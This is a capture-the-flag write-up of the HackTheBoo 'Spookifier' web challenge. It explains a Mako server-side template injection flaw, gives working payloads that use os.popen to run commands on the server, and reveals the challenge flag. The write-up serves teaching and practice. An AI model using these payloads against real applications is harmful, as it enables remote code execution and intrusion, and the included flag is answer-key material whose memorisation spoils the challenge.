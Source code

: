 # HackTheBoo - Spookifier

* **Category:** Web
* **Points:** 200
* **Author:** xcl0w3n  

## Challenge

> There's a new trend of an application that generates a spooky name for you. Users of that application later discovered that their real names were also magically changed, causing havoc in their life. Could you help bring down this application?

## Solution
![image](https://user-images.githubusercontent.com/78451563/198273040-f00d5306-8031-4cd5-9a8d-7ed415bc1c11.png)

* In the `util.py` we can see the template (`Mako`) in use which could hint for a potential `SSTI` vuln.
* The function `Template()` is used on our results which we control therefore allows an attacker to include template code into an existing template.

[PayloadAllThings Mako](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection#mako)

```python
>>> print(Template("${self.module.cache.util.os}").render())
<module 'os' from '/usr/local/lib/python3.10/os.py'>
```
*It seems that using `os.system` to run arbitary commands would only display the return code of the process for example 0, meaning Success*
* I modified the POC to use `popen` and `read` to execute and display.


![image](https://user-images.githubusercontent.com/78451563/198278004-a5ddbe2a-8477-46fe-a734-b97f2e347adf.png)

```python
${self.module.cache.util.os.popen('id').read()}
```


```
Flag: HTB{t3mpl4t3_1nj3ct10n_1s_$p00ky!!}
```
